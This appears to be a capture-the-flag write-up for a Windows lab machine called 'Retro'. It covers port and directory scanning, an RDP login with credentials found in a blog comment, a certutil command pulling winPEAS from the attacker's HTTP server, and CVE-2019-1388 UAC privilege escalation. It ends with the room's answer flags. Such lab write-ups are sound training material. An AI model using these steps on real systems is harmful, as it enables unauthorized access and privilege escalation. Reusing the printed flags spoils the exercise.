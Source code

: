 # Retro - Hard

```shell
nmap -T4 -p- -A -Pn -v 10.10.163.31

feroxbuster -u http://10.10.163.31 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

xfreerdp /u:wade /p:parzival /v:10.10.163.31:3389

#in windows command prompt
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

#in attacker machine
python3 -m http.server

#in windows cmd
cd C:\Users\Wade\Desktop

certutil.exe -urlcache -f http://10.14.31.212:8000/winPEASx64.exe winpeas.exe

#restore hhupd.exe from Recycle Bin
#follow CVE-2019-1388 to get cmd as Administrator
#it will take multiple tries
```

* Open ports & services:

  * 80 - http - Microsoft iis httpd 10.0
  * 3389 - ms-wbt-server - Microsoft Terminal Services

* We can start by enumerating the webpage on port 80; it seems to be a IIS default homepage.

* Using feroxbuster, we get a directory /retro, which leads to a page for 'Retro Fanatics', a blog page.

* Now, exploring the webpage, we can see that the author's name is 'Wade'.

* Furthermore, one of the blogs - 'Ready Player One' - mentions that the main character of the movie with the same name is used while logging in.

* There is a comment left by the author on the same blog, and it mentions 'parzival'.

* We have a possible set of creds, wade:parzival, and that can be used for logging in over the service at port 3389.

* Logging in via xfreerdp, we get the user flag from wade's Desktop.

* We can begin with basic enumeration on the Windows machine by using command prompt.

* ```winpeas``` shows that the system is vulnerable to multiple CVEs - CVE-2019-0836, CVE-2019-1388, CVE-2020-1013.

* We will be using CVE-2019-1388, which abuses the UAC windows certificate dialog.

* We can go through the details by Googling this exploit; we can either download hhupd.exe or restore hhupd.exe from the Recycle Bin.

* In order for this to work, before attempting to carry out the exploit, we have to open IE browser, and it might take multiple tries.

* After multiple times of opening hhupd.exe UAC prompt and going through the steps, we get the option to view the certificate in IE browser.

* This gives us an error page; we can use Ctrl+S to load the 'save page' prompt on IE.

* In the file explorer popup, we can go to C:\Windows\System32\cmd.exe - this loads command prompt as Administrator, and we can view root flag.

```markdown
1. A web server is running on the target. What is the hidden directory which the website lives on? - /retro

2. user.txt - 3b99fbdc6d430bfb51c72c651a261927

3. root.txt - 7958b569565d7bd88d10c6f22d1c4063
```
